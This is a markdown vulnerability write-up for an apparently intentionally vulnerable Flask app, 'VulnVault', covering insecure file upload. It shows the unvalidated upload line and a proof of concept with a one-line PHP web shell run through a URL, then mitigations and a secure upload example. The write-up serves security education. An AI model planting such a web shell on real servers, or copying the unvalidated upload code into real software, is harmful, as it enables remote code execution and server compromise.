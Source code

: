 # Insecure File Upload Vulnerability Writeup

---

## 🔍 Overview

Insecure File Upload vulnerabilities occur when a web application allows users to upload files without sufficient validation. This can lead to attackers uploading malicious scripts (e.g., web shells), leading to remote code execution or server compromise.

---

## 💥 Location in VulnVault

- **Route:** `/upload`
- **Vulnerable Code Snippet:**

```python
file.save(os.path.join("uploads", file.filename))
````

This code saves any uploaded file directly to the server without validating the file type, content, or filename.

---

## 🧪 Proof of Concept

1. Upload a file named `shell.php` containing:

```php
<?php system($_GET['cmd']); ?>
```

2. Access it via:

```
http://localhost:5000/uploads/shell.php?cmd=ls
```

3. You’ll receive the output of the `ls` command — this demonstrates remote code execution.

> Note: This works in vulnerable environments where `.php` is processed by the server.

---

## 🔓 Impact

* Remote code execution
* Web shell deployment
* Privilege escalation
* Server-side attacks (e.g., pivoting or persistence)

---

## 🛡️ Mitigation Strategies

* **Validate file extensions and MIME types** (e.g., only allow `.jpg`, `.png`)
* **Store files outside the web root** so they can’t be executed via a URL
* **Rename uploaded files** to random strings or UUIDs to prevent targeting
* **Scan uploaded files** using antivirus tools
* **Restrict file permissions** on upload folders
* **Check magic bytes (file signatures)**, not just file extensions

---

## ✅ Example Secure Upload (Flask)

```python
from werkzeug.utils import secure_filename
import uuid

if file and allowed_file(file.filename):
    filename = secure_filename(file.filename)
    extension = filename.rsplit('.', 1)[1].lower()
    new_filename = f"{uuid.uuid4()}.{extension}"
    file.save(os.path.join(app.config['UPLOAD_FOLDER'], new_filename))
```

---

## 🔧 Tools for Testing

* [Burp Suite Repeater/Intruder](https://portswigger.net/burp)
* `curl` or Postman
* Custom web shells (PHP, Python, etc.)

---

## 📚 References

* [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
* [PortSwigger: Insecure File Upload](https://portswigger.net/web-security/file-upload)

---

**Never trust uploaded files. Always treat them as untrusted input, and isolate them accordingly.** 🧨📁
